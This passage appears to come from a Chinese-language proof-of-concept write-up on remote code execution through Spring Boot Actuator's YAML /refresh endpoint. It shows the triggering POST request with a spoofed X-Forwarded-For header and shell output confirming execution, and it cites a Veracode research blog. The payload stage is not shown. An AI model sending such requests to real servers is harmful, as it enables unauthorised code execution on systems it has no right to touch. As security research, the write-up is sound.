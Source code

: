 ## 0x02 refresh post任意内容，RCE 漏洞触发

![](./yaml_refresh.png)

```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```
## 0x03 RCE 执行成功

![](./yaml_success.png)
```
root@kali:/var/www/html# ls /tmp/succ*
/tmp/success
root@kali:/var/www/html# 

```



Ps: 与Eureka的XStream有效负载相比，yaml的方法甚至可以在最新版本中使用。

## 参考链接

https://www.veracode.com/blog/research/exploiting-spring-boot-actuators

